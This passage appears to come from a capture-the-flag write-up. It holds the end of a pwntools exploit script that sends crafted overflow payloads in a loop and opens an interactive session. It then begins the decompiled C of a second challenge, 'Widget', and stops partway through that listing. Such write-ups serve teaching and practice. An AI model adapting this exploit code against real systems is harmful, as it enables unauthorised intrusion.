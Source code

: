 ```py
b *0x004015e5
"""


def conn(*a, **kw):
    if args.LOCAL:
        return process([exe.path], **kw)
    elif args.GDB:
        return gdb.debug([exe.path], gdbscript=gdbscript, **kw)
    else:
        return remote(HOST, PORT, **kw)


io = conn(level="debug")


def main():
    global io

    # good luck pwning :)
    secret = b"A" * 0x20
    pwnit = flat({0x20: secret})
    fixup = flat({0x10: 0, 0x18: 0x31})

    for _ in range(100):
        io.sendlineafter(b"Your input", pwnit)
        io.sendafter(b"So? What's my secret? ", secret)
        io.sendlineafter(b"Say what you want: ", fixup)

    io.interactive()


if __name__ == "__main__":
    main()
```

## Widget

We are given an ELF binary. The main function looks like the following:

```c
void main(void) {
  int n;
  char buf [24];
  __gid_t local_10;
  uint i;

  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  local_10 = getegid();
  setresgid(local_10,local_10,local_10);
  if (called != 0) {
    exit(1);
  }
  called = 1;
  printf("Amount: ");
  n = 0;
  __isoc99_scanf("%d",&n);
  getchar();
  if (n < 0) {
    exit(1);
  }
  printf("Contents: ");
```